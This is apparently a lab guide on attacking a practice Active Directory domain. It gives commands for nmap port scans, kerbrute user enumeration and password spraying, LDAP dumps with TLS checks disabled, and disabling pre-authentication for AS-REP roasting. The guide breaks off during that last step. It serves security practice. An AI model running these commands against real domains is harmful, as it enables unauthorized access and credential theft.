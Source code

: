 #### Port Scanning
The `nmap` utility can be used to scan for open ports in an IP range.
```bash
# -sS for TCP SYN scan
# -n for no name resolution
# --open to only show (possibly) open port(s)
# -p for port(s) number(s) to scan
nmap -sS -n --open -p 88,389 192.168.122.0/24
```

### Movement
#### User Enumeration
Enumerate the users in the Active Directory Domain Controller using a users list.
```bash
./kerbrute userenum -d polaris.org users.txt --dc 192.168.122.10
```

#### Password Spraying

Perform a horizontal brute force attack against a list of domain users. This is useful for testing one or two common passwords when you have a large list of users.
```bash
./kerbrute passwordspray -d polaris.org valid_users.txt --dc 192.168.122.10 Password123
```

#### LDAP Dump
1. On the attacker, to avoid the attacker from verifying the certificate from TLS connections, add the line to the file `/etc/ldap/ldap.conf`: `TLS_REQCERT never`. [Link](https://www.openldap.org/software/man.cgi?query=ldap.conf&sektion=5&apropos=0&manpath=OpenLDAP+2.4-Release)

2. On the Domain Controller, add a user with a description in Domain.
```bash
/usr/local/samba/bin/samba-tool user add saul.goodman beTTer@caLL@me --description="DELETE THIS LATER. Password: beTTer@caLL@me"
```
Now, the LDAP queries can be performed from the attacker workstation to obtain relevant information about the AD and its objects.

1. With TLS:
```bash
ldapsearch -H ldap://192.168.122.10 -D "CN=saul.goodman,CN=Users,DC=polaris,DC=org" -w "beTTer@caLL@me" -b "DC=polaris,DC=org" -x -ZZ -LLL "(&(objectCategory=person)(objectClass=user))"
```

2. Without TLS:
```bash
ldapsearch -H ldap://192.168.122.10 -D "CN=saul.goodman,CN=Users,DC=polaris,DC=org" -w "beTTer@caLL@me" -b "DC=polaris,DC=org" -x "(&(objectCategory=person)(objectClass=user))"
```
**[NOTE:]** To perform LDAP queries without TLS, it is necessary to add `ldap server require strong auth = no` on the DC `smb.conf` file.

#### AS-REP Roasting

1. Deactivate Pre-authentication for a given user by modifying the `useraccountcontrol` attribute to `4194816`. 
```bash
/usr/local/samba/bin/samba-tool user edit <user> --editor=nano
```
